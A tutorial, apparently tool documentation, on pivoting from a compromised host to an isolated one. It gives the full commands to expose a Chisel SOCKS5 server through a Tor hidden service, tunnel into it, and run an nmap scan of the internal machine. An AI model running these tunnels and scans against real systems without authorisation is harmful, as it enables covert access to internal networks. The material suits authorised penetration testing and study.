

# Pivoting with hidden-portforwarding and Chisel

At this point, Victim1 is already compromised. In order to reach Victim2 \(the **network-isolated machine**\), we will use Victim1 as a pivot. To achieve our goal, we will use **hidden-portforwarding** together with [**Chisel**](https://github.com/jpillora/chisel).

As shown in the following illustration, the victim will publish a Hidden Service that routes TCP traffic to the Chisel Server \(running in the pivot\). Once the Chisel server is reached from the Chisel client, an **SOCKS5+HTTP tunnel** is established so that we can send packets through it.



## 1. Run Chisel Server in the pivot

As described in the [Chisel documentation](https://github.com/jpillora/chisel#socks5-guide), we can **start the Chisel server** as a SOCKS5 proxy by executing the following command:

```text
[victim1]$ ./chisel server -p 1111 --socks5 &
```

Now Chisel server is ready to get connections from the Chisel client.

## 2. Chisel Server reachable from Tor

In order to reach the Chisel Server from the Chisel Client preserving the anonimity, we will use **hidden-portforwarding**. This tool will allow us to **redirect TCP packets** from a new Hidden Service to the TCP port where Chisel Server is listening.

The tool will need to receive:

1\) the `-data-dir` parameter to preserve the onion address,

2\) the `-hidden-port` parameter with the port you want for the Hidden Service and

3\) the  `-forward` parameter with the TCP socket you want to send traffix to.

```text
[victim1]$ ./hidden-portforwarding -data-dir /tmp/pf-datadir \
    -hidden-port 9001 -forward 127.0.0.1:1111 
...
Forwarding xa7ljkruk7lra4el.onion:9001 -> 127.0.0.1:1111
```


Using **-data-dir** parameter is specially important here. It will contain the keys for the Hidden Service so that the onion address doesn't change. If not specified, each execution will create a different Hidden Service.


## 3. Chisel tunnel establishment

Now that Chisel Server is reachable though the `hidden-portforwarding` tool, we will connect from Chisel Client. We can set the `--proxy` parameter to use the Tor instance proxy:

```text
[attacker]$ alias chisel-client-tor='chisel client --proxy socks://127.0.0.1:9050'
[attacker]$ chisel-client-tor xa7ljkruk7lra4el.onion:9001 socks &
```

Now, Chisel Client is serving a SOCKS5 proxy on `1080` port that will route traffic to the Chisel Server:

```text
[attacker]$ ss -lntp | grep chisel
LISTEN 0   4096   127.0.0.1:1080   0.0.0.0:*  users:(("chisel",pid=3730,fd=3))
```

## 4. Send traffic through the tunnel

In order to connect to the SOCKS5 proxy that Chisel Client serves, we will use [proxychains4](https://github.com/rofl0r/proxychains-ng):

```text
[attacker]$ alias pc4='proxychains4 -f /etc/proxychains4.conf'
[attacker]$ cat /etc/proxychains4.conf
...
[ProxyList]
socks5  127.0.0.1 1080
```

Now, let's try a simple port scanning against Victim2:

```text
[attacker]$ pc4 nmap -sT -Pn -n -sV -sC -p80,22,25,3000 victim2
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
25/tcp   open  smtp    Postfix smtpd
80/tcp   open  http    Apache httpd 2.4.43 (() PHP/5.4.16)
3000/tcp open  http    Mongoose httpd
...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 230.37 seconds
```


Every packet will go through a SOCKS5 proxy over the Tor network. **Traffic intensive tools**, such as nmap, **will decrease their performance significantly due to the high latency**. You should try to run this tools directly from pivot; for example, by using **static compiled** versions of these tools.



